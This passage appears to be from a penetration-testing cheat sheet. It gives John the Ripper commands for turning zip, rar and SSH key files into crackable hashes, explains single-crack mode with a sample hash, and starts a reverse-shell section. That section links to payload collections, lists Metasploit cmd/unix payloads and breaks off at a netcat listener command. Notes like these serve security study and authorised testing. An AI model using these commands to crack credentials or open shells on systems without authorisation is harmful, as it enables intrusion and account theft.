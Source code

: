 ```
zip2john [options] [zip file] > [output file]
```
convert the zip file into a hash format that John is able to understand

```
rar2john [options] [rar file] > [output file]
```
convert the rar file into a hash format that John is able to understand

```
ssh2john [options] [rsa file] > [output file]
```
convert the ssh file into a hash format that John is able to understand

```
john --single --format=[format] [path to file] 
```
--single mode is used for username mangling
>If you're cracking hashes in single crack mode, you need to change the file format that you're feeding john for it to understand what data to create a wordlist from. You do this by prepending the hash with the username that the hash belongs to, so according to the above example- we would change the file hashes.txt from: `1efee03cdcb96d90ad48ccc7b8666033` To `mike:1efee03cdcb96d90ad48ccc7b8666033`


```
Intruder tab on Burpsuite
```

---
# Reverse Shells

Payloads all the Things
>https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Reverse Shell Cheatsheet
>https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Reverse Shell Generator
>https://www.revshells.com/

Metasploit has several payloads under “cmd/unix” that can be used to generate one-liner bind or reverse shells:
```shell
msfvenom -l payloads | grep "cmd/unix"
```

---

### Reverse Shell example

starts a listener
on the attacking machine
`sudo nc -lvnp 443
